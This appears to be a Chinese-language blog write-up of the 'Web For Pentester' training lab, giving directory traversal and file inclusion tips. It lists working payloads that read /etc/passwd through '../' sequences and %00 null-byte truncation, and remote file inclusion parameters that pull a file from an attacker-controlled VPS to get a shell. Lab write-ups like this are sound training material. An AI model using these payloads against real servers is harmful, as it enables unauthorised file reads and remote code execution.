```yaml
---
layout:     post
title:      "Web For Pentester - Directory traversal & File Include Part Tips"
subtitle:   "Training exercises"
date:       2016-11-01
author:     "Urahara"
header-img: "img/202cb962ac59075b964b07152d234b70.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training documents




---
```




## Directory traversal Part 

### Example 1

最基础的目录穿越造成的任意文件读取，这里为相对路径，通过“../”可进行目录跳转

**file=/../../../../../../../../etc/passwd**

### Example 2

路径显示为网站物理路径，直接改为/etc/passwd不成功，通过../进行目录穿越

**file=/var/www/files/../../../etc/passwd**

### Example 3

这里可以看出文件名后缀被写死到了程序当中，使用%00进行截断

**file=../../../../../../../../../etc/passwd%00**

## File Include Part

### Example 1

使用单引号报错可以看到程序抛出了异常，这里爆出了网站物理路径，并在程序中使用include()函数，当然可以使用目录穿越去包含本地/etc/passwd文件，也可以使用远程文件包含去getshell

**page=/../../../../../../../../etc/passwd**

**page=http://vps地址/phpinfo.txt**

### Example 2

与Directory traversal Part中的Example 3类似，通过%00去截断

**page=/../../../../../../../../etc/passwd%00**

**page=http://vps地址/phpinfo.txt%00**

